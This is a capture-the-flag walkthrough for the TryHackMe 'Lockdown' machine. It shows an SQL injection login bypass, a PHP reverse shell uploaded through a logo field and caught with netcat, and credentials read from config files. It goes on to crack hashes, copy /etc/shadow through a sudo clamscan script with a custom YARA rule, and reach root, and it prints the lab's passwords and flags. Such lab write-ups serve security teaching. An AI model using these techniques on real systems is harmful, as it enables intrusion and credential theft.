




# Lockdown

## Description

Stay at 127.0.0.1. Wear a 255.255.255.0.

Deploy the machine attached to this task and find the flags.

Banner © pngtree.com.

* Note: If you had problem openning the webpage on your browser, add `<MACHINE IP>  contacttracer.thm` to `/etc/hosts` and use this host name.

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 27:1d:c5:8a:0b:bc:02:c0:f0:f1:f5:5a:d1:ff:a4:63 (RSA)
|   256 ce:f7:60:29:52:4f:65:b1:20:02:0a:2d:07:40:fd:bf (ECDSA)
|_  256 a5:b5:5a:40:13:b0:0f:b6:5a:5f:21:60:71:6f:45:2e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Coronavirus Contact Tracer
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## SQLI

Let's start with the webage. There is a link to admin login panel in the last line of the first page:

I started trying some simple SQLI on the login page and I was able to bypass the login page with the following query:

~~~
' OR 1 = 1 -- -
~~~

## Reverse shell

Now we have access to the admin panel. I looked around a bit and found out I can upload a logo in `/admin/?page=system_info` with no restrictions:

I uploded a php reverse shell which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the IP to your local IP.

Now we need to find a page that runs the logo page in order to call the shell. Open a listener (`rlwrap nc -lvnp 4444`) and logout of the admin panel and navigate to `http://contacttracer.thm` and our shell is called and we have a shell as `www-data`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Lockdown/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.189] from (UNKNOWN) [10.10.70.106] 44726
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:10:50 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (994): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

The firt thing I did, was spawning a TTY shell using a python on3-liner:

~~~
sh-4.4$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@lockdown:/$
~~~

### www-data -> cyrus

Now we need to move lateraly. If you list `/home`, you'll see two user: `cyrus` and `maxine`. I started enumerating the machine manually. I checked the web directory and `/var/www/html/config.php` looked interesting. Let's read the content:

~~~php
<?php
session_start();
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://contacttracer.thm/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
require_once('classes/DBConnection.php');       <------------
require_once('classes/SystemSettings.php');
$db = new DBConnection;
$conn = $db->conn;

function redirect($url=''){
	if(!empty($url))
	echo '';
}
function validate_image($file){
	if(!empty($file)){
		if(@getimagesize(base_url.$file)){
			return base_url.$file;
		}else{
			return base_url.'dist/img/no-image-available.png';
		}
	}else{
		return base_url.'dist/img/no-image-available.png';
	}
}
?>
~~~

unfortunately, there are no creds, but there is an interesting path: `classes/DBConnection.php`. Let's see if we can find anything there:

~~~php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
    
[REDACTED]

}
?>
~~~

Great! We have creds for the database:
* Username: `cts`
* Password: `YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE`

Let's connect to the database:

~~~
www-data@lockdown:/var/www/html$ mysql -u cts -p
Enter password: YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2109
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)
~~~

There is a database named `cts_db`. Let's use it and list the tables:

~~~
mysql> use cts_db
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.00 sec)
~~~

There are a few tables, but `users` looks interesting. Let's see what we can find inside it:

~~~
mysql> select * from users;
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3eba6f73c19818c36ba8fea761a3ce6d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+----------------------------------+-------------------------------+------------+---------------------+---------------------+
1 row in set (0.00 sec)
~~~

We found an MD5 password hash. I used [crackstation](https://crackstation.net/) to crack it:

Now we have a password: `sweetpandemonium`. I was able swithed to user `cyrus` with this password:

~~~
www-data@lockdown:/var/www/html$ su cyrus
Password: sweetpandemonium

cyrus@lockdown:/var/www/html$ id
uid=1001(cyrus) gid=1001(cyrus) groups=1001(cyrus)
~~~

## User flag

Now we can read the user flag located in `/home/cyrus`:

~~~
cyrus@lockdown:/var/www/html$ cd /home/cyrus
cyrus@lockdown:~$ ls
quarantine  testvirus  user.txt
cyrus@lockdown:~$ cat user.txt
THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}
~~~

User flag: `THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}`

## cyrus -> maxine

Now that we have the password for user `cyrus`, we can add our public key to connect to the target machine via ssh. If you don't have a publick key, you can create one using `ssh-keygen` and copy the content of the file with `.pub` extention to `/home/cyrus/.ssh/authorized_keys` and connect to the machine:

~~~
                                                                                                                      
┌──(user㉿Y0B01)-[~/.ssh]
└─$ ssh cyrus@$IP       
The authenticity of host '10.10.70.106 (10.10.70.106)' can't be established.
ED25519 key fingerprint is SHA256:JkkDaKznWsLd4d2OCZSxB2PdN37W5YkB6DWn/9G0Kqo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:36: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.70.106' (ED25519) to the list of known hosts.
cyrus@lockdown:~$ id
uid=1001(cyrus) gid=1001(cyrus) groups=1001(cyrus)
~~~

Now we need to escalate our privilege. I ran `sudo -l` to check my sudo permissions:

~~~
cyrus@lockdown:~$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
~~~

As you can see, we can run a bash script (`/opt/scan/scan.sh`) as root with sudo and no password. Let's see what it does:

~~~bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
~~~

This script is using `clamscan` which is a command line tool which uses libclamav to scan files and/or directories for viruses. I searched a lot and found out that clamscan or ClamAV, supports yara rules. With having enough permissions, we can import our own rule and do what we want.

The main config file is `/etc/clamav/freshclam.conf`:

~~~
cyrus@lockdown:~$ cat /etc/clamav/freshclam.conf
# Automatically created by the clamav-freshclam postinst
# Comments will get lost when you reconfigure the clamav-freshclam package

DatabaseOwner clamav
UpdateLogFile /var/log/clamav/freshclam.log
LogVerbose false
LogSyslog false
LogFacility LOG_LOCAL6
LogFileMaxSize 0
LogRotate true
LogTime true
Foreground false
Debug false
MaxAttempts 5
DatabaseDirectory /var/lib/clamav     <------------
DNSDatabaseInfo current.cvd.clamav.net
ConnectTimeout 30

[REDACTED]
~~~

Here we can see where the database is: `/var/lib/clamav`:

~~~
cyrus@lockdown:~$ cd /var/lib/clamav
cyrus@lockdown:/var/lib/clamav$ ls -la
total 16
drwxrwxrwx  2 clamav clamav 4096 Nov 17 12:29 .      <-------------
drwxr-xr-x 45 root   root   4096 Jul 30 20:30 ..
-rw-r--r--  1 root   root     46 Jul 23 20:07 main.hdb
-rw-r--r--  1 root   root     69 May 11  2021 mirrors.dat
~~~

As you probably noticed, we have full access to this directory. First we need to remove the default rules. Then we make our own rule:

### Importing our rule

~~~
cyrus@lockdown:/var/lib/clamav$ rm main.hdb 
rm: remove write-protected regular file 'main.hdb'? yes
cyrus@lockdown:/var/lib/clamav$ nano rule.yara
cyrus@lockdown:/var/lib/clamav$ cat rule.yara 
rule test 
{
  strings:
    $show = "root"
  condition:
    $show
}
~~~

What this rule does is that it searches for the string "root" within the file we are scanning, and if it finds a match, it flags it as a virus and outputs it to `/home/cyrus/quarantine/` where we can read it. (We can search for "THM" which gives us the root flag, but where's the fun in that? : / )

After changing the rules, I copied the content of `/etc/shadow` which holds the password hashes of the users in a linux machine:

~~~
cyrus@lockdown:~$ sudo /opt/scan/scan.sh
Enter path: /etc/shadow
/etc/shadow: YARA.test.UNOFFICIAL FOUND
/etc/shadow: copied to '/home/cyrus/quarantine/shadow'

----------- SCAN SUMMARY -----------
Known viruses: 1
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.163 sec (0 m 0 s)
Start Date: 2021:11:17 13:22:00
End Date:   2021:11:17 13:22:00
cyrus@lockdown:~$ cd quarantine/
cyrus@lockdown:~/quarantine$ ls
shadow
cyrus@lockdown:~/quarantine$ cat shadow 
root:*:18480:0:99999:7:::
daemon:*:18480:0:99999:7:::

[REDACTED]

sshd:*:18757:0:99999:7:::
maxine:$6$/syu6s6/$Z5j6C61vrwzvXmFsvMRzwNYHO71NSQgm/z4cWQpDxMt3JEpT9FvnWm4Nuy.xE3xCQHzY3q9Q4lxXLJyR1mt320:18838:0:99999:7:::
cyrus:$6$YWzR.V19JxyENT/D$KuSzWbb6V0iXfIcA/88Buum92Fr5lBu6r.kMoQYAdfvbJuHjO7i7wodoahlZAYfFhIuymOaEWxGlo0WkhbqaI1:18757:0:99999:7:::
mysql:!:18758:0:99999:7:::
clamav:!:18758:0:99999:7:::
~~~

### Cracking maxine's password

We don't have root's password hash, but we have the password hash of the other user `maxine`. I saved the hash in my machine and started cracking it using `john` and `rockyou` wordlist:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Lockdown/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt maxine.hash                
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tiarna           (maxine)     
1g 0:00:00:38 DONE (2021-11-17 08:23) 0.02590g/s 2095p/s 2095c/s 2095C/s 063006..skyla1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

maxine's password: `tiarna`

Now that we have the password for user `maxine`, we can switch to this user:

~~~
cyrus@lockdown:~$ su maxine
Password:
maxine@lockdown:/home/cyrus$ id
uid=1000(maxine) gid=1000(maxine) groups=1000(maxine),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
maxine@lockdown:~$ sudo -l
[sudo] password for maxine: 
Matching Defaults entries for maxine on lockdown:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maxine may run the following commands on lockdown:
    (ALL : ALL) ALL
~~~

As you can see, we can run all the commands as `root` with sudo and no password, so I simply ran `sudo su` and switched to root:

~~~
maxine@lockdown:~$ sudo su
root@lockdown:/home/maxine# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@lockdown:/home/maxine# cd
root@lockdown:~# ls
root.txt
root@lockdown:~# cat root.txt 
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}
~~~

Root flag: `THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )